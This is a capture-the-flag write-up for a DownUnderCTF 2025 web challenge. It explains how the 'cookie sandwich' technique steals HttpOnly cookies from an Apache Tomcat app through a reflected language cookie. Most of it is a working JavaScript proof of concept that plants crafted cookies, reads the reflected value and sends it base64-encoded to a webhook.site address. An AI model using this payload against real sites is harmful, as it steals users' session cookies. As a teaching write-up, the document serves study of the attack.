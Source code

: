 ## TLDR

The challenge is about using the cookie sandwich technique from [Zakhar Fedotkin](https://portswigger.net/research/stealing-httponly-cookies-with-the-cookie-sandwich-technique) to steal HttpOnly cookies. This is possible because the application is running on Apache Tomcat, which falls back to RFC2109 parsing if the cookie starts with `$Version=1`.

![cookie sandwich](/CTF-writeups/2025/downunderctf-2025/cookie-sandwich.png)

To exfiltrate the admin cookie, we need to find an endpoint that reflects cookie values. There are multiple XSSs in the challenge but the solution is to use the `language` cookie which is reflected in the html lang attribute.

## PoC

```html
<script>
async function sandwich(target, cookie) {
    const iframe = document.createElement('iframe');

    const url = new URL(target);
    const domain = url.hostname;
    const path = url.pathname;

    iframe.src = target;
    iframe.style.display = 'none';
    document.body.appendChild(iframe);
    iframe.onload = async () => {
        document.cookie = `$Version=1; domain=${domain}; path=${path};`;
        document.cookie = `${cookie}="FOO; domain=${domain}; path=${path};`;
        document.cookie = `dummy=qaz"; domain=${domain}; path=/;`;
        try {
            const response = await fetch(`${target}`, {
                credentials: 'include',
            });
            const responseData = await response.text();
            const regex = /<html[^>]*>/;
            // const regex = /<html lang="([^"]*)">/;
            const match = responseData.match(regex);

            window.location.href = 'http://webhook.site/8aa41a0a-ce2d-46e5-83a8-9d1616e33f03/' + btoa(match[0]);

        } catch (error) {
        }
    };
}

setTimeout(sandwich, 100, 'http://127.0.0.1:8080/index.jsp', 'language');
</script>
```

Flag: DUCTF{1_th0ught_y0u_c0uldnt_st34l_th3m}


Solved by: benkyou